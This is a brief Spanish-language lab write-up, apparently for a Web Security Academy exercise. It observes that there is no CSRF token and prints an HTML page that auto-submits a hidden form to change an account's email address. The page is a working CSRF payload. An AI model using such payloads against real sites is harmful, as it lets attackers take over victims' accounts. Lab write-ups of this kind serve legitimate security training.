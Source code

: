<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

No hay un CSRF token por lo que realizamos el siguiente ataque.

```
<html>
    <head>
        <title>CSRF</title>
    </head>
    <body>
        <form action="https://0ab300ff0315bc5f80b5e925003400ab.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="test@test.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
